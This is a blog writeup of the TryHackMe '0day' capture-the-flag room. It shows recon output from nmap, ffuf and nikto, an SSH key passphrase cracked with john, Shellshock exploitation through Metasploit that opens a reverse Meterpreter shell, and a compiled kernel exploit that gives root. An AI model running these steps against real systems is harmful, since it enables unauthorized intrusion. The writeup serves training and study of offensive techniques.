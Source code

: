 ```yaml
---
layout: default
title : 0day - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 10, 2020**_

[0day](https://tryhackme.com/room/0day) Writeup

## Recon :

```
bvr0n@kali:~/CTF/THM/0day$ nmap -sC -sV 10.10.86.209
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-10 15:38 EST
Nmap scan report for 10.10.86.209
Host is up (0.095s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Recon :

```
bvr0n@kali:~/CTF/THM/0day$ ffuf -c -u http://10.10.86.209/FUZZ -w ~/Documents/Dirbuster/wordlist.txt 

________________________________________________

.htpasswd               [Status: 403, Size: 288, Words: 21, Lines: 11]
.hta                    [Status: 403, Size: 283, Words: 21, Lines: 11]
.htaccess               [Status: 403, Size: 288, Words: 21, Lines: 11]
admin                   [Status: 301, Size: 311, Words: 20, Lines: 10]
backup                  [Status: 301, Size: 312, Words: 20, Lines: 10]
cgi-bin/                [Status: 403, Size: 287, Words: 21, Lines: 11]
cgi-bin                 [Status: 301, Size: 313, Words: 20, Lines: 10]
css                     [Status: 301, Size: 309, Words: 20, Lines: 10]
img                     [Status: 301, Size: 309, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 3025, Words: 285, Lines: 43]
js                      [Status: 301, Size: 308, Words: 20, Lines: 10]
robots.txt              [Status: 200, Size: 38, Words: 7, Lines: 2]
secret                  [Status: 301, Size: 312, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 292, Words: 21, Lines: 11]
uploads                 [Status: 301, Size: 313, Words: 20, Lines: 10]
```

`/backup/` have a SSH private key, Let's crack it for a password.

```
bvr0n@kali:~/CTF/THM/0day$ sudo john test --wordlist=/home/bvr0n/Documents/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)
```
This was eventually a rabbit hole haha, i decided to bring `nikto` he may help me :

```
bvr0n@kali:~/CTF/THM/0day$ nikto -h 10.10.86.209
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.86.209
+ Target Hostname:    10.10.86.209
+ Target Port:        80
+ Start Time:         2020-11-10 15:54:28 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ Uncommon header '93e4r0-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)
```
Nikto was able to find a vulnerability named `Shellshock`.

## Shellshock :

Also known as Bashdoor, is a family of security bugs in the Unix Bash shell, the first of which was disclosed on 24 September 2014. 
Shellshock could enable an attacker to cause Bash to execute arbitrary commands and gain unauthorized access to many Internet-facing services, such as web servers, that use Bash to process requests. 

##### Specific exploitation vectors :

* CGI-based web server, Python, Perl
* OpenSSH server
* DHCP clients
* Qmail server
* IBM HMC restricted shell
* Vulnerable since version 1.03 of Bash released in September 1989

## Shellsock Exploitation :

I searched for it in metasploit and found 11 modules, but this one matches what we need :

```
   5   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)7
```
This is what we need to configure :

```
> set LHOST tun0
> set RHOSTS 10.10.86.209
> set TARGETURI /cgi-bin/test.cgi
```
Type exploit and wait for it :

```
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 10.8.14.157:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (980808 bytes) to 10.10.86.209
[*] Meterpreter session 1 opened (10.8.14.157:4444 -> 10.10.86.209:55383) at 2020-11-10 16:09:04 -0500

meterpreter >
```

## Privilege Escalation :

So i did a few enumeration and i found out that this machine is running an outdated kernel :o

```
www-data@ubuntu:/home/ryan$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

I searched for this version and found an [Exploit](https://www.exploit-db.com/exploits/37292) for it, so let's get this root.

I uploaded the exploit to the machine via my machine and compiled it :

```
www-data@ubuntu:/tmp$ gcc Kernel_exploit.c -o kec
www-data@ubuntu:/tmp$ ./kec 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id && whoami
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root
```


<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](https://bvr0n.github.io/)

<br>
